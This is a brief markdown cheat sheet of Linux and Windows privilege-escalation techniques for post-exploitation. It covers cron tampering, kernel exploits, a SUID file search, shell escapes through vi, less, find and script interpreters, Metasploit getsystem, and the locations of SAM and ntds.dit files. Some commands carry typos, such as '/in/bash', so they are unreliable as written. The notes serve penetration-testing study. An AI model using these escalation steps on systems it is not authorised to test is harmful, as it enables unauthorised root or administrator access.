 ```yaml
---
title: Priv Esc
category: Post-Exploitation
order: 96
---
```


>**Linux**

Cron.d | Write a file to cron.d and wait for restart
Cron files  | Can any of the cron files be tampered with
Kernal Exploit |  <code> Run uname -a, /etc/release, /etc/issue and find an exploit </code>
Application Exploit | Look for web servers, mail servers for command injection
Look for exploits in root owned programs
PATH | Look for '.' in the path for system users
SETUID/SETGUID | <code> find directory -user root -perm -4000 -exec ls -ld {} \; > /tmp/security-hole </code> They may use the system syscall without specifying the path name 
User writable scripts | Look for scripts that have user writable permissions and are invoked by root (or call scripts that are invoked by root)
Enlightenment Exploit Pack | tbd
LD_PRELOAD | tbd
check sudo permissions | sudo -l

**setuid permissions**
 
{% highlight bash %}
sudo vi :shell
less (press v - launching vi) :shell
more  ?,  !bash
cp or mv
find . -exec bash -i \;
Script interpeters
perl exec ""/bin/bash"";<ctrl-d>
ruby exec ""bin/bash""
python import os os.system('/in/bash')
nano 
{% endhighlight %}

>**Windows**

Metasploit | use priv, getsystem -n [number]
SAM Locations | c:\windows\repair, c:\winnt\repair
Active Directory Representations | ntd.dit

http://pentestmonkey.net/uncategorized/from-local-admin-to-domain-admin


